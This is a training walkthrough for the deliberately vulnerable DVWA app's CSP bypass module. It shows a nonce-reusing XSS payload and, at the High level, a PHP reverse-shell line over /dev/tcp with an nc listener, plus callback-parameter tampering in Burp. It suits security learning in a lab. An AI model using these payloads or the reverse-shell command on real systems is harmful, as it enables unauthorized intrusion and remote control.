 ```yaml
---
title: DVWA - CSP Bypass
date: 2023-12-18
categories: [Training, DVWA]
tags: [dvwa, csp, csp-bypass, burp, xss, javascript, js, php, nonce]
img_path: /assets/dvwa/csp_bypass
published: true
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## Content Security Policy (CSP) Bypass

CSP is used to **define where scripts and other resources can be loaded or executed from**. This module will walk you through ways to bypass the policy based on common mistakes made by developers. None of the vulnerabilities are actual vulnerabilities in CSP, they are vulnerabilities in the way it has been implemented.

**Objective**: Bypass Content Security Policy (CSP) and execute JavaScript in the page.

## Security: Low
> _Examine the policy to find all the sources that can be used to host external script files ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_low_source.php))._

> This task has an active issue: [CSP Bypass can't be solved with Hastebin anymore (once again) #539](https://github.com/digininja/DVWA/issues/539)
{: .prompt-warning}

## Security: Medium
> _The CSP policy tries to use a nonce to prevent inline scripts from being added by attackers ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_medium_source.php))._

1. If we have a look at the source code, we will see that a `nonce` has been included:

    ```php
    $headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";

    header($headerCSP);

    // Disable XSS protections so that inline alert boxes will work
    header ("X-XSS-Protection: 0");

    # <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
    ```

    Let's find out what exactly [`nonce`](https://blog.mozilla.org/security/2014/10/04/csp-for-the-web-we-have/) is:

    _A CSP with a nonce-source might look like this:_

    `content-security-policy: default-src 'self'; script-src 'nonce-2726c7f26c'`

    And the corresponding document might contain a script element that looks like this:

    ```php
    <script nonce="2726c7f26c">
    alert(123);
    </script>
    ```

    There are 2 things to note here:
    1. It’s important that the nonce changes for each response.
    2. It’s important that the nonce is sufficiently hard to predict.

    _Now, because the nonce changes in a way that isn’t predictable, **the attacker doesn’t know what to inject** and so, by only allowing script (or style) elements with valid nonce attributes, we can be sure that injections will fail._

2. Essentialy, in order to bypass CSP we now need to know the `nonce`'s value. If we try to XSS as usual, it won't work:

    ```javascript
    <script>alert("XSS")</script>
    ```

    ![](medium_xss_fail.png)

3. But if we pass our payload along with the `nonce`'s value, it will work just fine:

    ```javascript
    <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert("XSS")</script>
    ```

    ![](medium_xss_nonce.png)

## Security: High
> _The page makes a JSONP call to source/jsonp.php passing the name of the function to callback to, you need to modify the jsonp.php script to change the callback function ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_high_source.php))._

### Reverse shell

1. On this level the page makes a call to `jsonp.php` and executes whatever code is there:

    ![](home_high.png)

    ```shell
    $ cat /usr/share/dvwa/vulnerabilities/csp/source/jsonp.php
    <?php
    header("Content-Type: application/json; charset=UTF-8");

    if (array_key_exists ("callback", $_GET)) {
            $callback = $_GET['callback'];
    } else {
            return "";
    }

    $outp = array ("answer" => "15");

    echo $callback . "(".json_encode($outp).")";
    ?>
    ```

2. We can make a backup of this file and replace it with one that contains our code in it, such as a [php reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell):

    ```shell
    $ sudo cp jsonp.php jsonp.php.bak

    $ ls
    high.js  high.php  impossible.js  impossible.php  jsonp_impossible.php  jsonp.php  jsonp.php.bak  low.php  medium.php

    $ cat jsonp.php
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'");?>
    ```

3. If we set up a listener and click the *Solve the sum* button, we should be able to catch the reverse shell:

    ```shell
    $  nc -lvnp 1337
    listening on [any] 1337 ...
    ```

    ![](medium_revshell.png)

### Command execution

1. If we click the *Solve the sum* button and intercept the traffic with Burp, we will notice the `callback` parameter:

    ![](high_burp.png)

2. We can modify `callback`'s value by passing a simple payload and then execute our payload by sending the request:

    ![](high_burp2.png)

    ![](high_alert.png)

## Security: Impossible
> _This level is an update of the high level where the JSONP call has its callback function hardcoded and the CSP policy is locked down to only allow external scripts ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=ERksJHl0DC0).
- [Content Security Policy Reference](https://content-security-policy.com/).
- Mozilla's [CSP for the web we have](https://blog.mozilla.org/security/2014/10/04/csp-for-the-web-we-have/).
- PortSwigger's [Content Security Policy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy).
